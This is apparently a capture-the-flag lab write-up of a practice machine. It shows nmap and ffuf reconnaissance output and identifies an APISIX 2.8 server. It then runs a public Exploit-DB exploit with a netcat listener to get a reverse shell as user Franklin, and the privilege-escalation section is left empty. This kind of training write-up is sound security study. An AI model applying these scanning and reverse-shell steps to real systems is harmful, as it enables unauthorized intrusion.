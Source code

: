 <h2>Recon</h2>

<h3>PortScanning</h3>

>command: sudo nmap -A 192.168.118.220 -p- -T4 -v

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-04 03:08 WAT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 03:08
Completed NSE at 03:08, 0.00s elapsed
Initiating NSE at 03:08
Completed NSE at 03:08, 0.00s elapsed
Initiating NSE at 03:08
Completed NSE at 03:08, 0.00s elapsed
Initiating Ping Scan at 03:08
Scanning 192.168.118.220 [4 ports]
Completed Ping Scan at 03:08, 0.25s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 03:08
Completed Parallel DNS resolution of 1 host. at 03:08, 0.03s elapsed
Initiating SYN Stealth Scan at 03:08
Scanning 192.168.118.220 [65535 ports]
Discovered open port 22/tcp on 192.168.118.220
Discovered open port 3306/tcp on 192.168.118.220
Discovered open port 80/tcp on 192.168.118.220
Increasing send delay for 192.168.118.220 from 0 to 5 due to 452 out of 1129 dropped probes since last increase.
Increasing send delay for 192.168.118.220 from 5 to 10 due to 35 out of 87 dropped probes since last increase.
SYN Stealth Scan Timing: About 4.53% done; ETC: 03:19 (0:10:53 remaining)
SYN Stealth Scan Timing: About 6.11% done; ETC: 03:24 (0:15:37 remaining)
SYN Stealth Scan Timing: About 7.09% done; ETC: 03:29 (0:19:52 remaining)
SYN Stealth Scan Timing: About 8.32% done; ETC: 03:32 (0:22:13 remaining)
SYN Stealth Scan Timing: About 11.36% done; ETC: 03:30 (0:19:38 remaining)
SYN Stealth Scan Timing: About 14.42% done; ETC: 03:29 (0:17:54 remaining)
SYN Stealth Scan Timing: About 17.48% done; ETC: 03:28 (0:16:51 remaining)
SYN Stealth Scan Timing: About 21.64% done; ETC: 03:28 (0:15:49 remaining)
SYN Stealth Scan Timing: About 24.95% done; ETC: 03:27 (0:14:48 remaining)
SYN Stealth Scan Timing: About 29.30% done; ETC: 03:27 (0:13:48 remaining)
Discovered open port 9443/tcp on 192.168.118.220
SYN Stealth Scan Timing: About 35.13% done; ETC: 03:27 (0:12:46 remaining)
SYN Stealth Scan Timing: About 41.10% done; ETC: 03:28 (0:11:46 remaining)
SYN Stealth Scan Timing: About 45.93% done; ETC: 03:28 (0:10:44 remaining)
Discovered open port 43500/tcp on 192.168.118.220
SYN Stealth Scan Timing: About 50.99% done; ETC: 03:28 (0:09:43 remaining)
SYN Stealth Scan Timing: About 56.95% done; ETC: 03:28 (0:08:40 remaining)
SYN Stealth Scan Timing: About 62.13% done; ETC: 03:28 (0:07:38 remaining)
SYN Stealth Scan Timing: About 67.21% done; ETC: 03:28 (0:06:37 remaining)
SYN Stealth Scan Timing: About 72.32% done; ETC: 03:28 (0:05:36 remaining)
SYN Stealth Scan Timing: About 77.81% done; ETC: 03:28 (0:04:33 remaining)
SYN Stealth Scan Timing: About 82.98% done; ETC: 03:28 (0:03:29 remaining)
SYN Stealth Scan Timing: About 88.26% done; ETC: 03:28 (0:02:25 remaining)
SYN Stealth Scan Timing: About 93.32% done; ETC: 03:28 (0:01:22 remaining)
Completed SYN Stealth Scan at 03:29, 1261.99s elapsed (65535 total ports)
Initiating Service scan at 03:29
Scanning 5 services on 192.168.118.220
Completed Service scan at 03:29, 12.81s elapsed (5 services on 1 host)
Initiating OS detection (try #1) against 192.168.118.220
Retrying OS detection (try #2) against 192.168.118.220
Retrying OS detection (try #3) against 192.168.118.220
Retrying OS detection (try #4) against 192.168.118.220
Retrying OS detection (try #5) against 192.168.118.220
Initiating Traceroute at 03:29
Completed Traceroute at 03:29, 0.40s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 03:29
Completed Parallel DNS resolution of 2 hosts. at 03:29, 0.14s elapsed
NSE: Script scanning 192.168.118.220.
Initiating NSE at 03:29
Completed NSE at 03:30, 6.71s elapsed
Initiating NSE at 03:30
Completed NSE at 03:30, 3.38s elapsed
Initiating NSE at 03:30
Completed NSE at 03:30, 0.00s elapsed
Nmap scan report for 192.168.118.220
Host is up (0.28s latency).
Not shown: 65530 closed tcp ports (reset)
PORT      STATE SERVICE             VERSION
22/tcp    open  ssh                 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62361a5cd3e37be170f8a3b31c4c2438 (RSA)
|   256 ee25fc236605c0c1ec47c6bb00c74f53 (ECDSA)
|_  256 835c51ac32e53a217cf6c2cd936858d8 (ED25519)
80/tcp    open  http                OpenResty web app server 1.21.4.1
|_http-title: Welcome to OpenResty!
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: openresty/1.21.4.1
3306/tcp  open  mysql               MySQL (unauthorized)
9443/tcp  open  ssl/tungsten-https?
43500/tcp open  http                OpenResty web app server
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
|_http-server-header: APISIX/2.8
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=3/4%OT=22%CT=1%CU=40783%PV=Y%DS=2%DC=T%G=Y%TM=6402AD2D
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=FF%GCD=1%ISR=110%TI=Z%II=I%TS=A)OPS(O1=M54
OS:EST11NW7%O2=M54EST11NW7%O3=M54ENNT11NW7%O4=M54EST11NW7%O5=M54EST11NW7%O6
OS:=M54EST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF
OS:=Y%T=40%W=FAF0%O=M54ENNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%
OS:Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6
OS:(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RU
OS:D=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 17.436 days (since Tue Feb 14 17:01:47 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=255 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1025/tcp)
HOP RTT       ADDRESS
1   397.08 ms 192.168.49.1
2   397.25 ms 192.168.118.220

NSE: Script Post-scanning.
Initiating NSE at 03:30
Completed NSE at 03:30, 0.00s elapsed
Initiating NSE at 03:30
Completed NSE at 03:30, 0.00s elapsed
Initiating NSE at 03:30
Completed NSE at 03:30, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1312.12 seconds
           Raw packets sent: 74577 (3.286MB) | Rcvd: 70387 (2.819MB)
```
We have 5 ports opened here, port 22 which runs ssh, port 80&43500 which runs http, port 3306 that runs mysql and port 9443 which runs tungsten-https. Our enumeration today will be focused on port 80 and port 43500.



<h2>Enumeration Port 80</h2>

Going to the webpage you should get something like this

![image](https://user-images.githubusercontent.com/67879936/222871755-79016811-30bf-4eb7-a5c4-d377c5b8c5a7.png)

We got a welcome page here. Lets fire up ffuf to help search for directories

>command: ffuf -u "http://192.168.118.220//FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .zip,.sql,.php,.phtml,.bak,.backup

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/Flimsy]
└─$ ffuf -u "http://192.168.118.220//FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .zip,.sql,.php,.phtml,.bak,.backup 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.118.220//FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .zip .sql .php .phtml .bak .backup 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 1097, Words: 106, Lines: 29, Duration: 278ms]
index.html              [Status: 200, Size: 1097, Words: 106, Lines: 29, Duration: 200ms]
:: Progress: [32298/32298] :: Job [1/1] :: 99 req/sec :: Duration: [0:03:38] :: Errors: 0 ::
```
oops, we found nothing. Moving on with our enumeration.



<h2>Enumeration Port 43500</h2>

Navigating to the webpage

![image](https://user-images.githubusercontent.com/67879936/222872557-fdab2979-e3e3-4f88-80d2-a6f24c4cf056.png)

We got a "route not found" error message

Lets check the header of this webpage using curl

>command: curl -v http://192.168.118.220:43500/

![image](https://user-images.githubusercontent.com/67879936/222872630-a69d8d56-0e76-4cb9-b6bb-97e874f48065.png)

From the above screenshot, you'll see ```APISIX/2.8```. Lets check for available exploits

![image](https://user-images.githubusercontent.com/67879936/222872788-e7aa64e8-0c2b-4f9c-ad4c-645661e1e352.png)

Lets go ahead and exploit this vulnerability




<h2>Exploitation</h2>

Link to Exploit:https://www.exploit-db.com/exploits/50829

Download this exploit to your machine. If that is done you can go ahead and run the exploit

>command: python exploit.py target_url lhost lport

Ensure you have your netcat listener running before running the above command

>nc -nvlp 1234

![image](https://user-images.githubusercontent.com/67879936/222873311-b6a9fae6-7fe4-4113-bff2-faf3c5084a9c.png)

cool, we got a shell as user Franklin. Lets go ahead and escalate our privileges.




<h2>Privilege Escalation</h2>















































